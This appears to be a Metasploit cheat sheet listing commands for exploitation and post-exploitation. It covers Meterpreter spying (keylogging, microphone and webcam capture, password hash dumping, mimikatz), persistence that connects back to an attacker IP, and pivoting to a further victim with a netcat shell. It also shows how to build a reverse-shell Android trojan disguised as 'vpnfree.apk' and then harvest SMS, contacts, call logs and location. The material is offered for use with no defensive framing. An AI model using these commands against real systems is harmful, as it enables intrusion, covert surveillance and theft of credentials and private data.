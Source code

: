 # MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run
  - ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 
- Session
  - ```sessions -l```
  - ```sessions -i 2```  

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```
- Web scanner path 
  - ```/usr/share/metasploit-framework/modules/auxiliary/scanner/http/```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
  - ```sysinfo```
  - ```ipconfig```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of *service.exe* or *explorer.exe* - DLL Hijack for persistant

## Persistance
- ```run persistence -U -i 20 -p 80 -r 10.20.14.203```

## msfvenom (Android)
- Create malware
  - ```msfvenum -p android/meterpreter/reverse_tcp -e shikata-ga-nai lhost=192.168.1.18 lport=443 R > /var/www/html/vpnfree.apk``` 
  - ```Keytool -genkey -v -keystore nss.keystore -alias nss -keyalg RSA -keysize 2048 -validity 100000```
  - ```jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore nss.keystore /var/www/html/vpnfree.apk nss```
- Listen in Kali (msfconsole)
  - ```use exploit/multi/handler```
  - ```set payload android/meterpreter/reverse_tcp```
  - ```set lhost 192.168.1.18```
  - ```set lport 443```
  - ```run -j```
- Exploit
  - ```sessions -l```
  - ```sessions -i 1```
  - ```geolocate```
  - ```dump_sms```
  - ```dump_calllog```
  - ```dump_contacts```
  - ```record_mic -d 15```
  - ```Webcam_snap```
  - ```webcam_snap -h```
  - ```webcam_list```
  - ```webcam_stream 2```
  - ```send_sms -h```
  - ```app_list```
    - show mobile app's 
  - ```app_run```
    - run one of above app 
  - ```shell```
    - open mobile shell (convert meterpreter shell to os shell)
     
     
## Pivot
- Find a network interface with a different address from current subnet with ```ifconfig```
- Create a route between hacker and new victim
  - ```use post/windows/manage/autoroute```
  - ```set SESSION 1
  - ```set SUBNET 10.20.15.0```
  - ```exploit```
- Connect to new victim
  - ```use exploit/multi/samba/usermap_script```
  - ```set RHOST 10.20.15.4```
  - ```set PAYLOAD cmd/unix/bind_netcat```
  - ```exploit```


